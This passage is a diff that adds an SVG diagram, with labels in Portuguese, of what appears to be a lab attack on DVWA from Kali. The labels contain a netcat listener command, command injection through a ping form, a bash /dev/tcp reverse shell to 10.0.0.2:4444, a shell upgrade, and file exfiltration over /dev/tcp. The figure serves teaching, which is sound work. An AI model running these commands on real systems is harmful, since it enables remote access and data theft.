+     <text data-text-role="subtitle" data-full-text="nc -lvnp 4444" data-text-max-width="376.0" x="280.0" y="258.0" text-anchor="middle" class="node-sub" font-size="12">nc -lvnp 4444</text>
+   </g>
+   <g id="node-inj" data-graph-role="node" data-node-id="inj" data-semantic-role="node" data-motion-role="" data-motion-stage="" data-motion-order="" data-parent="dvwa" data-deployment-id="" data-topic-id="" data-span-id="" data-station-order="" data-status="" data-start-ms="" data-duration-ms="" data-parent-span="" data-graph-bounds="820,170,1220,290">
+     <rect x="820.0" y="170.0" width="400.0" height="120.0" rx="10.0" fill="#0f172a" stroke="#38bdf8" stroke-width="1.8" />
+     <text x="1020.0" y="188.0" text-anchor="middle" class="node-type">PASSO 2</text>
+     <text data-text-role="title" data-full-text="Injeção no formulário de ping" data-text-max-width="376.0" x="1020.0" y="236.0" text-anchor="middle" class="node-title" font-size="18">Injeção no formulário de ping</text>
+     <text data-text-role="subtitle" data-full-text="o comando roda como www-data" data-text-max-width="376.0" x="1020.0" y="258.0" text-anchor="middle" class="node-sub" font-size="12">o comando roda como www-data</text>
+   </g>
+   <g id="node-bash" data-graph-role="node" data-node-id="bash" data-semantic-role="node" data-motion-role="" data-motion-stage="" data-motion-order="" data-parent="dvwa" data-deployment-id="" data-topic-id="" data-span-id="" data-station-order="" data-status="" data-start-ms="" data-duration-ms="" data-parent-span="" data-graph-bounds="820,360,1220,480">
+     <rect x="820.0" y="360.0" width="400.0" height="120.0" rx="10.0" fill="#2a1f05" stroke="#f59e0b" stroke-width="2.6" filter="url(#glowOrange)" />
+     <text x="1020.0" y="378.0" text-anchor="middle" class="node-type">PASSO 3 · O MOMENTO-CHAVE</text>
+     <text data-text-role="title" data-full-text="O alvo liga de volta" data-text-max-width="376.0" x="1020.0" y="426.0" text-anchor="middle" class="node-title" font-size="18">O alvo liga de volta</text>
+     <text data-text-role="subtitle" data-full-text="bash -i &gt;&amp; /dev/tcp/10.0.0.2/4444" data-text-max-width="376.0" x="1020.0" y="448.0" text-anchor="middle" class="node-sub" font-size="12">bash -i &gt;&amp; /dev/tcp/10.0.0.2/4444</text>
+   </g>
+   <g id="node-pty" data-graph-role="node" data-node-id="pty" data-semantic-role="node" data-motion-role="" data-motion-stage="" data-motion-order="" data-parent="kali" data-deployment-id="" data-topic-id="" data-span-id="" data-station-order="" data-status="" data-start-ms="" data-duration-ms="" data-parent-span="" data-graph-bounds="80,360,480,480">
+     <rect x="80.0" y="360.0" width="400.0" height="120.0" rx="10.0" fill="#0f172a" stroke="#64748b" stroke-width="1.8" />
+     <text x="280.0" y="378.0" text-anchor="middle" class="node-type">PASSO 4</text>
+     <text data-text-role="title" data-full-text="Shell completo (PTY)" data-text-max-width="376.0" x="280.0" y="426.0" text-anchor="middle" class="node-title" font-size="18">Shell completo (PTY)</text>
+     <text data-text-role="subtitle" data-full-text="upgrade com script: Ctrl-C, tab, senha oculta" data-text-max-width="376.0" x="280.0" y="448.0" text-anchor="middle" class="node-sub" font-size="12">upgrade com script: Ctrl-C, tab, senha oculta</text>
+   </g>
+   <g id="node-loot" data-graph-role="node" data-node-id="loot" data-semantic-role="node" data-motion-role="" data-motion-stage="" data-motion-order="" data-parent="kali" data-deployment-id="" data-topic-id="" data-span-id="" data-station-order="" data-status="" data-start-ms="" data-duration-ms="" data-parent-span="" data-graph-bounds="80,530,480,650">
+     <rect x="80.0" y="530.0" width="400.0" height="120.0" rx="10.0" fill="#2a0a12" stroke="#fb7185" stroke-width="2.6" />
+     <text x="280.0" y="548.0" text-anchor="middle" class="node-type">PASSO 5 · O QUE O ATACANTE GANHA</text>
+     <text data-text-role="title" data-full-text="Arquivo do alvo no Kali" data-text-max-width="376.0" x="280.0" y="596.0" text-anchor="middle" class="node-title" font-size="18">Arquivo do alvo no Kali</text>
+     <text data-text-role="subtitle" data-full-text="integridade conferida com sha256sum" data-text-max-width="376.0" x="280.0" y="618.0" text-anchor="middle" class="node-sub" font-size="12">integridade conferida com sha256sum</text>
+   </g>
+   <g id="e2-label" data-graph-role="label" data-owner="e2" data-graph-bounds="847.16,311,997,331">
+     <rect x="847.16" y="311.0" width="149.84" height="20" rx="6" fill="#0f172a" opacity="0.92" />
+     <text x="922.08" y="325.0" text-anchor="middle" class="arrow-label">injeta o reverse shell</text>
+   </g>
+   <g id="e3-label" data-graph-role="label" data-owner="e3" data-graph-bounds="546.2,205,667,225">
+     <rect x="546.2" y="205.0" width="120.8" height="20" rx="6" fill="#0f172a" opacity="0.92" />
+     <text x="606.6" y="219.0" text-anchor="middle" class="arrow-label">shell burro chega</text>
+   </g>
+   <g id="e4-label" data-graph-role="label" data-owner="e4" data-graph-bounds="153.24,311,257,331">
+     <rect x="153.24" y="311.0" width="103.76" height="20" rx="6" fill="#0f172a" opacity="0.92" />
+     <text x="205.12" y="325.0" text-anchor="middle" class="arrow-label">melhora o shell</text>
+   </g>
+   <g id="e5-label" data-graph-role="label" data-owner="e5" data-graph-bounds="671.96,559,828.04,579">
+     <rect x="671.96" y="559.0" width="156.08" height="20" rx="6" fill="#0f172a" opacity="0.92" />
+     <text x="750.0" y="573.0" text-anchor="middle" class="arrow-label">cat arquivo &gt; /dev/tcp</text>
+   </g>
+   <g id="legend" data-graph-role="legend">
+     <rect id="legend-zone" data-graph-role="reserved" data-reserved-kind="legend" x="38" y="701" width="1015.44" height="46" rx="10" fill="none" stroke="none" />
+     <line data-graph-role="decoration" x1="48.0" y1="715.0" x2="78.0" y2="715.0" stroke="#38bdf8" stroke-width="2.3" marker-end="url(#arrowC)" />
+     <text data-graph-role="decoration" x="88.0" y="719.0" class="legend">comando do atacante    </text>
+     <line data-graph-role="decoration" x1="260.24" y1="715.0" x2="290.24" y2="715.0" stroke="#22c55e" stroke-width="2.3" marker-end="url(#arrowB)" />
+     <text data-graph-role="decoration" x="300.24" y="719.0" class="legend">conexão do alvo para o Kali    </text>
+     <line data-graph-role="decoration" x1="510.88" y1="715.0" x2="540.88" y2="715.0" stroke="#f59e0b" stroke-width="2.3" marker-end="url(#arrowF)" />
+     <text data-graph-role="decoration" x="550.88" y="719.0" class="legend">momento-chave    </text>
+     <line data-graph-role="decoration" x1="686.64" y1="715.0" x2="716.64" y2="715.0" stroke="#94a3b8" stroke-width="2.3" marker-end="url(#arrowH)" />
+     <text data-graph-role="decoration" x="726.64" y="719.0" class="legend">passo no Kali    </text>
+     <line data-graph-role="decoration" x1="850.88" y1="715.0" x2="880.88" y2="715.0" stroke="#fb7185" stroke-width="2.3" marker-end="url(#arrowE)" />
+     <text data-graph-role="decoration" x="890.88" y="719.0" class="legend">o que o atacante ganha</text>
+   </g>
+   <g id="footer" data-graph-role="reserved" data-graph-bounds="48,753,720,769">
+     <text x="48.0" y="765.0" class="footnote">O alvo não tem nc nem python3: por isso o canal usa o /dev/tcp do bash e o upgrade usa o script.</text>
+   </g>
</svg>
